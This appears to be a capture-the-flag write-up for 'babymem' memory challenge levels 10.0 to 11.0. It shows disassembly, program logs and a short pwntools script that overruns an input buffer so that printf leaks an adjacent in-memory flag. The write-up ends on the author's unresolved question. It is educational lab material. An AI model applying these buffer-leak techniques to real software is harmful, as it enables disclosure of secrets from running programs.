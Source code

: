 **Look at this printf at the end of the function challenge**
```
0x00005593d08b38b3 <+1092>:  mov    rax,QWORD PTR [rbp-0x140]
0x00005593d08b38ba <+1099>:  mov    rsi,rax
0x00005593d08b38bd <+1102>:  lea    rdi,[rip+0xe1e]        # 0x5593d08b46e2
0x00005593d08b38c4 <+1109>:  mov    eax,0x0
0x00005593d08b38c9 <+1114>:  call   0x5593d08b2140 <printf@plt>
```
- It print my input buffer

**However, the offset between my input and flag is 31, and the printf funtion will print my input each char until NULL byte(\x00), so what happens when I combine my input and flag(no NULL byte between them, it also means that I input 31 char)???**
**Boom, I get the flag.**
# 10. Level 10.1:
- It is similar with level 10.0.
# 11. Level 11.0:
```
This challenge stores your input buffer in an mmapped page of memory!
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c864000
In this level, the flag will be loaded into memory.
However, at no point will this program actually print the buffer storing the flag.
Memory mapping the flag...
Called mmap(0, 0x1000, 4, MAP_SHARED, open("/flag", 0), 0) = 0x7f1a2c837000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c836000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c835000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c834000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c833000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c832000
Memory mapping the input buffer...
Called mmap(0, 85, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f1a2c831000
```

- It is similar to the above level; however, the offset is 0x6000, too large for input. 
- Therefore, we must write a script instead of input from the keyboard.
**My script:**
```
from pwn import *
r = process('/challenge/babymem_level11.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'24576')
r.recvuntil(b'Send your payload (up to 24576 bytes)!')
r.sendline(b'A'*24576
        )
r.interactive()
```
---

**My problem**
- When I run the program
```
###
### Welcome to /challenge/babymem_level11.0!
###

The challenge() function has just been launched!
This challenge stores your input buffer in an mmapped page of memory!
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7effc4f92000
In this level, the flag will be loaded into memory.
However, at no point will this program actually print the buffer storing the flag.
Memory mapping the flag...
Called mmap(0, 0x1000, 4, MAP_SHARED, open("/flag", 0), 0) = 0x7effc4f65000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7effc4f64000
```